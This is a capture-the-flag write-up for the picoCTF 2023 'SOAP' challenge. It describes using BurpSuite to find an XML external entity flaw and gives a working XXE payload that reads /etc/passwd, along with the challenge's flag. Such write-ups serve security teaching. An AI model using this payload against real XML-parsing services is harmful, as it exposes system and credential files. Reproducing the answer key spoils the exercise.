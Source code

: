 

# CTF Writeup: PicoCTF2023 Challenge - SOAP

## Challenge Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Process
To solve this challenge, I followed these steps:

1. I launched an instance and visited the web portal it generated.
2. I loaded the web page in BurpSuite, as I needed to view a file.
3. I clicked on `Details`, intercepted the request with BurpSuite, and saw that the request returned a section of 
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```
4. I sent this request to the Repeater, and upon sending it, the response returned a section of 
```
<strong>Special Info::::</strong> Created By security and privacy experts
```
5. I then tested for an XXE (external entity injection) vulnerability by changing the `2` in the request to `0`. The response returned `Invalid ID: 0`.
6. I added the following code 
```
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
``` 
and changed the ID to `&example;`. This would replace `&example;` with `Doe` in the response. I set the code section to 
```
<!DOCTYPE replace [<!ENTITY example "0"> ]>
``` 
The response returned `Invalid ID: 0`.
7. I changed the `example` entity to `test` and the ID to `&test;`. I replaced the original 
```
<!DOCTYPE replace [<!ENTITY example "0"> ]>
``` 
with 
```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
``` 
This would retrieve the contents of the `/etc/passwd` file. The full section of code became 
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><data><ID>&test;</ID></data>
```
8. I sent this request, and the response showed the flag 
```
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Flag
The flag for the `SOAP` challenge is:
```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

I hope this writeup was helpful in understanding the steps needed to solve the `SOAP` challenge.
